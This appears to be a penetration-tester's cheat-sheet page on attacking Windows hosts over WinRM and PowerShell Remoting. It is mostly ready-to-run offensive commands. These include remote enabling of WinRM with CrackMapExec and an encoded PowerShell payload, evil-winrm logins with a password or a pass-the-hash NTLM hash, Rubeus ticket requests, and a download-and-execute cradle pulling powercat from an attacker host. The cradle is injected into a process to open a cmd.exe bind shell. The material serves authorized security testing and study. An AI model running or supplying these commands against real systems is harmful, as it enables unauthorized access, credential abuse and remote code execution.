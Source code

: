 ```yaml
---
description: Windows Remote Management / PowerShell Remoting
---
```


# WinRM / PSRemoting

* [https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/](https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/)
* [https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/](https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons)
* [https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm)




## Enable WinRM

Using PowerShell (takes ~1m to be applied):

```
PS > Enable-PSRemoting -Force
PS > Set-Item wsman:\localhost\client\trustedhosts * -Force
```

Remotely with CME:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' -x 'powershell -enc RQBuAGEAYgBsAGUALQBQAFMAUgBlAG0AbwB0AGkAbgBnACAALQBGAG8AcgBjAGUAOwBTAGUAdAAtAEkAdABlAG0AIAB3AHMAbQBhAG4AOgBcAGwAbwBjAGEAbABoAG8AcwB0AFwAYwBsAGkAZQBuAHQAXAB0AHIAdQBzAHQAZQBkAGgAbwBzAHQAcwAgACoACgA=' --no-output
```




## From Windows

* [https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm](https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm)

```
PS > winrm get winrm/config
PS > winrm set winrm/config/client '@{TrustedHosts="*"}'
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred
PS > Enter-PSSession -Session $sess
PS > Copy-Item .\file.txt -Destination "C:\users\administrator\music\" -ToSession $sess
```




## From Linux



### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Basic syntax:

```
$ evil-winrm -u '[MEGACORP\]snovvcrash' -p 'Passw0rd!' -i 10.10.13.37 -s `pwd` -e `pwd`
$ evil-winrm -u '[MEGACORP\]snovvcrash' -H fc525c9683e8fe067095ba2ddc971889 -i 10.10.13.37 -s `pwd` -e `pwd`
```

{% hint style="info" %}
Always use full username when authenticating as a domain user, because if there're 2 users sharing the same name (a local user and a domain user), say `WORKGROUP\Administrator` and `MEGACORP\Administrator`, and you're trying to authenticate as a domain admin without providing the domain prefix, authentication will fail.
{% endhint %}

Execute a .NET binary:

```
*Evil-WinRM* PS > Invoke-Binary Rubeus.exe "asktgt, /domain:megacorp.local, /user:snovvcrash, /rc4:fc525c9683e8fe067095ba2ddc971889, /nowrap"
```

Spawn interactive bind shell with [powercat.ps1](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and [Invoke-PSInject.ps1](https://github.com/EmpireProject/PSInject/blob/master/Invoke-PSInject.ps1):

```
$ sed -i s/powercat/pwcat/g pwcat.ps1
$ echo 'powercat -l -p 1337 -e cmd.exe' >> pwcat.ps1
$ echo 'IEX(New-Object Net.WebClient).DownloadString(''http://10.10.13.37/pwcat.ps1'')' | iconv -t UTF-16LE | base64 -w0
*Evil-WinRM* PS > Get-Process
*Evil-WinRM* PS > Invoke-PSInject.ps1
*Evil-WinRM* PS > Invoke-PSInject -ProcId <PID> -PoshCode <BASE64_CMD>
$ rlwrap nc 192.168.1.11 1337
```



### pwsh

```
$ pwsh
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred -Authentication Negotiate
PS > Enter-PSSession -Session $sess
```
